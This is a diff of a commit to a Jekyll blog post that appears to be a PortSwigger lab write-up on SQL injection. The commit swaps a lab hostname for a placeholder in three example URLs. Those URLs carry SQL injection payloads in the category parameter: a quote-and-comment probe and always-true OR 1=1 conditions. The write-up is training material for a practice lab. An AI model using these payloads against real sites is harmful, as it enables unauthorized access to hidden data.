

Before and after one commit to CyberKRY/CyberKRY.github.io, a Jekyll site: the page built from _posts/2026-06-27-portswigger-Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data.md, in a window 1280 px wide and 900 px high, scrolled down 897 px. Shown: the top 862 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Update 2026-06-27-portswigger-Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data.md

````diff
--- a/_posts/2026-06-27-portswigger-Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data.md
+++ b/_posts/2026-06-27-portswigger-Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data.md
@@ -34,7 +34,7 @@ To solve the lab, perform a SQL injection attack that causes the application to
 The initial goal is to trigger an SQL error via Burp Suite using the `?category=` parameter; let's enter our first SQL injection.
 
 ```python
-https://0a8b001603c955b480cffd8d003b001e.web-security-academy.net/filter?category=Gifts'--
+https://ID_LAB.web-security-academy.net/filter?category=Gifts'--
 ```
 
 Our request was successful, but we encountered an error
@@ -42,11 +42,11 @@ Our request was successful, but we encountered an error
 Next, we'll try to bypass the filter using an SQL injection where the value will always be True
 
 ```python
-https://0a8b001603c955b480cffd8d003b001e.web-security-academy.net/filter?category=' OR 1=1;--
+https://ID_LAB.web-security-academy.net/filter?category=' OR 1=1;--
 ```
 
 > Note: If you're not using Burp Suite but are working directly in the browser, you'll need to add additional characters.
 
 ```python
-https://0a8b001603c955b480cffd8d003b001e.web-security-academy.net/filter?category='+OR+1=1--
+https://ID_LAB.web-security-academy.net/filter?category='+OR+1=1--
 ```
````
